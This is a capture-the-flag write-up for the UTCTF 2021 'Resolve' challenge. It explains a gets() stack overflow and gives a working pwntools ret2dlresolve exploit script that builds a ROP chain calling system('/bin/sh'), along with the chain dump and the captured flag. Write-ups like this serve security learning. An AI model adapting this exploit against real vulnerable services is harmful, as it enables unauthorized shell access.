 ```yaml
---
layout: post
title: [UTCTF 2021] Resolve
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```

Now the vulnerability is pretty obvious but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here]. No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           0x0010:         0x401044 gets                                                                                           0x0018:         0x401159                                                                                                0x0020:         0x4011c3 pop rdi; ret                                                                                   0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           0x0030:         0x401020 [plt_init] system                                                                              0x0038:            0x310 [dlresolve index]
```

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`  

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload.



[here]: (https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)